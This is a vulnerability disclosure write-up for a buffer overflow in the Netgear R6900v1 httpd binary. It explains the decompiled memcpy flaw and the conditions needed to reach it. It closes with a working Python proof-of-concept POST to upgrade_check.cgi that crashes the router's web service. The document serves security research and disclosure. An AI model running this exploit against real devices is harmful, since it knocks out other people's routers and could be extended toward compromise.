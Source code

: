 # Netgear R6900v1 router buffer overflow vulnerability

## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20

## Vulnerability description

A buffer overflow vulnerability exists in the binaries of the R6900v1 firmware version. The vulnerability is located in the sub_18334 function in the /usr/sbin/httpd file (R6900-V1.0.1.26_1.0.20 version), memcpy(s, src, v2) Copying contiguous v2 bytes of data from src to a memory area starting with s causes the target memory area (s) to not be large enough to hold the data from the source memory area (src), because the value of v2 reads four contiguous bytes from the memory pointed to by the src pointer. Combine them in a specific byte order (based on the index value) into a 32-bit integer that may be larger than the memory length of the variable s, resulting in a buffer overflow, as shown in the figure below.

Previously, it was necessary to bypass the judgment of strcmp((const char)src, "#$^"), src had to be *#$^, which could be followed by the 0x00 character to cause truncation.

![image-20241125180023503](Netgear_R6900.assets/image-20241125180023503.png)

After IDA's use, sub_12CC8 calls sub_18334, where the variable v77 is passed real, it can be seen that the variable s1 needs to meet the 'name="mtenFWUpload"\r\n\r\n' string, the string data as sub_18334.

At the same time, if you want to execute this, the variable v117 must be 1, otherwise jump, but the value of v117 is assigned to 0 in line 713, as shown below.

![image-20241125180052319](Netgear_R6900.assets/image-20241125180052319.png)

As can be seen in the following process, the http request must have a while ring returned by the upgrade_check.cgi character.

![image-20241125180109532](Netgear_R6900.assets/image-20241125180109532.png)

However, in order to reach this place, certain conditions must be met, that is, to reach LABEL272, as show in the figure below.

![image-20241125180125997](Netgear_R6900.assets/image-20241125180125997.png)

## Vulnerability verification

Normal access to the router web side:

![image-20241125180221302](Netgear_R6900.assets/image-20241125180221302.png)

A vulnerability exists on the upgrade_check.cgi page

![image-20241125180235814](Netgear_R6900.assets/image-20241125180235814.png)

If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal

![image-20241125180247692](Netgear_R6900.assets/image-20241125180247692.png)

### poc

Write POC for testing

```
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, the test is performed using real devices, as shown below, and the service can be successfully started

![image-20240530153012560](Netgear_R6900.assets/image-20240530153012560.png)

Run the poc script, refresh the page, find that the service crashes, and the vulnerability verification succeeds.

![image-20240530153046472](Netgear_R6900.assets/image-20240530153046472.png)
